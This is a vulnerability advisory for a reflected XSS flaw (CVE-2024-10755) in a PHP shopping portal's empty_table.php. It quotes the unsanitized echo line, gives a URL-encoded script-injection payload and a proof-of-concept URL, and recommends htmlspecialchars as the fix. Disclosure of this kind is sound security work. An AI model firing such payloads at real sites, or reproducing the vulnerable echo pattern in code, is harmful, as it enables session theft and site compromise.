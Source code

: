 # CVE-2024-10755 - [XSS vulnerability] found in Online Shopping Portal 2.0 - (empty_table.php)

Affected Project: **Online Shopping Portal**

Exploit Author: Dimitris Chatzidimitris

Platform: Web/Php

Vendor: PHPGurukul

Official Website: (https://phpgurukul.com/shopping-portal-free-download/)

Version: 2.0

Updated: 06 June 2024

Vulnerable path/file: admin/assets/plugins/DataTables/media/unit_testing/templates/empty_table.php

Injection parameter: `scripts`

<br />

Size: 30.5 MB

Sha256: 127e719bf4236a9140f146dd7a6ae54f2a9234b9e6f0aeda240e7a4905c6e73c

<br />

## Vulnerability Description:
The issue arises in the `$aScripts[$i]` variable that can be influenced by user input directly echoing the constructed `<script>` tag into the HTML output, including the user-controlled part within the src attribute without any sanitization. 
This allows an attacker to inject arbitrary HTML or JavaScript code leading to an XSS attack.

<br />

## Vulnerable code:
```
echo '<script type="text/javascript" language="javascript" src="../'.$aScripts[$i].'?rand='.rand().'"></script>'
```

<br />

## Injection Payload Tested:

We need to set the `scripts` to an encoded url payload to make it work:
```
%22%3E%3C/script%3E%3Cscript%3Ealert('XSS')%3C/script%3E
```

<br />

## Execution:

When the browser parses this, it executes the `%22%3E%3C/script%3E%3Cscript%3Ealert('XSS')%3C/script%3E` code, resulting in a popup displaying `"XSS"`.

<br />

## Demonstration:

Below is how `empty_table.php` looks like:

<br />

![empty_table.php](https://i.postimg.cc/wMCcqwGJ/1.png)

<br />

Then we can add our payload `%22%3E%3C/script%3E%3Cscript%3Ealert('XSS')%3C/script%3E`:

```
http://localhost/shopping/admin/assets/plugins/DataTables/media/unit_testing/templates/empty_table.php?scripts=%22%3E%3C/script%3E%3Cscript%3Ealert('XSS')%3C/script%3E
```

<br />

After submitting the url with the payload `%22%3E%3C/script%3E%3Cscript%3Ealert('XSS')%3C/script%3E`, XSS is triggered:

<br />

![xss](https://i.postimg.cc/kMzkRqrN/2.png)

<br />

## Recommendation for Preventing XSS:

To fix this vulnerability, we must always sanitize user inputs before rendering them in the HTML. We can use functions like htmlspecialchars() in PHP to encode special characters.

<br />

Example:
```
echo '<script type="text/javascript" language="javascript" src="../' . htmlspecialchars($aScripts[$i], ENT_QUOTES, 'UTF-8') . '?rand=' . rand() . '"></script>';
```

<br />

> One Click Can Change Everything: Be Secure.
